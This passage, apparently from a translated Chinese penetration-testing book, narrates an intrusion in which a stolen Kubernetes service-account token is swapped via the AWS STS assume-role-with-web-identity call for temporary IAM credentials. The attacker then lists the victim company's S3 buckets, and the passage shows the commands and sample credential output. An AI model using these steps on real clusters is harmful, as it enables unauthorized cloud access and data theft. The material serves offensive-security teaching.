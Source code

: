 当事情按预期顺利进行时真是太好了！我们获得了一个服务账户令牌。让我们看看能否将其交换为 IAM 密钥。如果我们解码这个令牌并与之前获得的默认 JWT 进行比较，我们会注意到一些关键的区别：

```
{
1 "aud": ["sts.amazonaws.com"],
  "exp": 1574000351,
2 "iss": "https://oidc.eks.eu-west-1.amazonaws.com/id/4BAF8F5",
  "kubernetes.io": {
    "namespace": "prod",
`--snip--`
    "serviceaccount": {
      "name": "api-core-account",
      "uid": "f9438b1a-087b-11ea-9d5f-06c16d8c2dcc"
    }
  "sub": "system:serviceaccount:prod:api-core-account"
}
```

服务帐户令牌具有一个观众属性 `aud` 1，它是接受我们刚解码的令牌的资源服务器。这里设置为 STS——AWS 服务，用于授予临时 IAM 凭证。令牌的颁发者 2 不再是服务帐户控制器，而是与 EKS 集群一起配置的 OpenID 服务器。*OpenID* 是一种认证标准，用于将认证委托给第三方。AWS IAM 信任该 OpenID 服务器，确保 JWT 中的声明被正确签名和认证。

根据 AWS 文档，如果一切设置正确，IAM 角色 api-core.ec2 也将被配置为信任由该 OpenID 服务器发出的模拟请求，并带有主题声明 `system:serviceaccount:prod:api-core-account`。

当我们调用 `aws sts assume-role-with-web-identity` API 并提供必要的信息（网络令牌和角色名称）时，我们应该会得到有效的 IAM 凭证：

```
root@Pointer1:/# **AWS_ROLE_ARN="arn:aws:iam::886477354405:role/api-core.ec2"**
root@Pointer1:/# **TOKEN ="ewJabazetzezet..."**

root@Pointer1:/# **aws sts assume-role-with-web-identity \**
**--role-arn $AWS_ROLE_ARN \**
**--role-session-name sessionID \**
**--web-identity-token $TOKEN \**
**--duration-seconds 43200**

{
    "Credentials": {
        "SecretAccessKey": "YEqtXSfJb3lHAoRgAERG/I+",
        "AccessKeyId": "ASIA44ZRK6WSYXMC5YX6",
        "Expiration": "2019-10-30T19:57:41Z",
        "SessionToken": "FQoGZXIvYXdzEM3..."
    },
`--snip--`
}
```

哈利路亚！我们刚刚将 Kubernetes 服务令牌升级为可以与 AWS 服务交互的 IAM 角色。通过这种新类型的访问权限，我们能造成什么样的影响？

### 滥用 IAM 角色权限

api-core 应用程序管理广告活动，包含指向存储在 S3 上的创意文件的链接，并具有许多其他功能。可以合理推测，相关的 IAM 角色具有一些扩展权限。我们从一个显而易见的权限开始，它从一开始就一直困扰着我们——列出 S3 上的桶：

```
root@Pointer1:/# **aws s3api list-buckets**
{
  "Buckets": [
     {
       "Name": "mxrads-terraform",
       "CreationDate": "2017-10-25T21:26:10.000Z"

       "Name": "mxrads-logs-eu",
       "CreationDate": "2019-10-27T19:13:12.000Z"

       "Name": "mxrads-db-snapshots",
       "CreationDate": "2019-10-26T16:12:05.000Z"
`--snip--`
```
